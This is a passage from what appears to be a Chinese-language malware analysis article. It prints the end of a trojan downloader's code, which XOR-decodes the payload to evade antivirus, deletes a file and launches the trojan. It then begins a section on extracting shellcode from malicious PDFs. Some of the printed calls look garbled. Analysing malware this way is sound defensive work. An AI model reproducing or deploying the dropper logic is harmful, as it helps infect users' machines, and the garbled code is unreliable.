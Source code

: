 ```
                ReadFile(hFile, buffer_otherone, 1024, dwBytesRead, NULL);
                dwPos += 1024;
                for(int i=0; i<1024; ++i)
                {
                    if(buffer_otherone[i] != 0 && buffer_otherone[i] != 0x95)
                        buffer_otherone[i] ^= 0x95;
                }
                //事实上木马下载回来的文件是0x95异或过的，只是为了防杀，所以这里为了保证它能正常运行，还需要这一步给它解回来
                WriteFile(hFile2, buffer_otherone, 1024, 0, 0);
            }
            CloseHandle(hFile);
            CloseHandle(hFile2);
            buffer[strlen(buffer) - 5] = ‘a’; //实际上操作语句不是这样，不过最后结果一样，简单写好了
            DeleteFileA(buffer);
            buffer[strlen(buffer) - 5] = ‘b’; 
            WCHAR bufferw[256];
            MultiByteToWideChar(buffer, CP_ACP, 0, buffer, 256, bufferw,  256);
            CreateProcessInternalW(0,0, bufferw, 0, 0, 0, 0); //启动木马
        }
    }
}while(0);

ExitProcess(0);

```

MALICIOUS_URL就这玩意，不贴上来了，要不白送别人一个友情链接多不好：

![enter image description here](http://drops.javaweb.org/uploads/images/4c8feec39c81d465ae77954c839bb228ac9e904b.jpg)

VI.2 Shellcode in PDF
=====

Adobe PDF Reader是一个全球内都广泛使用的工具，而它又可以在IE中实例化，因此，PDF漏洞也是攻击者热衷于挖掘和利用的一个重要部分，而PDF中也允许Javascript的执行，这就更加剧了其安全问题，本节将简单介绍如何提取PDF中的Shellcode。

关于PDF结构的细节不在这里过多介绍，以下是一个PDF的很常见的形式，PDF有明显的“节”（x x obj）和“节”信息（用双尖括号包围），而为了控制PDF的大小，PDF是支持多种压缩方式的，一种方式是zlib算法的压缩，这种方式压缩的节显示如下，可以从FlateDecode来区分出来。

在stream-endstream之间的就是压缩后的内容，还有个特征是这段内容的第一个字是“x”。

![enter image description here](http://drops.javaweb.org/uploads/images/ee9b8c04c0b1783500d1b96835b7e4620361ff4e.jpg)

当然，PDF也是支持明文存放的甚至于直接内部执行JS，例如：

![enter image description here](http://drops.javaweb.org/uploads/images/7dddcfd12b3e241c7fbfa22e990df666d3c19f06.jpg)

`16 0 obj - endobj`中间的就是js脚本。

针对PDF的解析可以参考我之前放出来的Redoce工具，可以针对性地对压缩过的部分进行解压，例如图中这节压缩内容解压后明显是垃圾信息，因此可以跳过：

![enter image description here](http://drops.javaweb.org/uploads/images/aba01743707915626721f3d016f4fc3cf748ea7f.jpg)

附件中的例子有恶意代码的部分是明文存放的，因此要对它的代码进行阅读和Shellcode的抽取应该是相当简单的。
